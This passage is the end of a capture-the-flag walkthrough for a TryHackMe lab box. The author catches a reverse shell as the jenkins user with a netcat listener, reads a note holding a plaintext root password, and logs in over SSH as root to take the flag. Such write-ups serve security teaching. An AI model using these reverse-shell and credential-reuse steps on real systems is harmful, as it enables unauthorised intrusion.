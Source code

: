 And catch a shell back as user Jenkins.

```text
┌──(ryan㉿kali)-[~/THM/Internal]
└─$ nc -lvnp 8000
listening on [any] 8000 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.32.84] 33800
whoami
jenkins
hostname
jenkins
```

After stabilizing the shell and poking around a bit I found yet another interesting file in the `/opt` directory:

```text
jenkins@jenkins:/opt$ cat note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

Cool, armed with these credentials I can SSH in as the root user:

```text
┌──(ryan㉿kali)-[~/THM/Internal]
└─$ ssh root@10.10.32.84  
root@10.10.32.84's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)
```

And grab the final flag:

![root_flag.png](../assets/internal_assets/root_flag.png)

That's that! Thanks for following along!

-Ryan

--------------------------------------------------------------------------
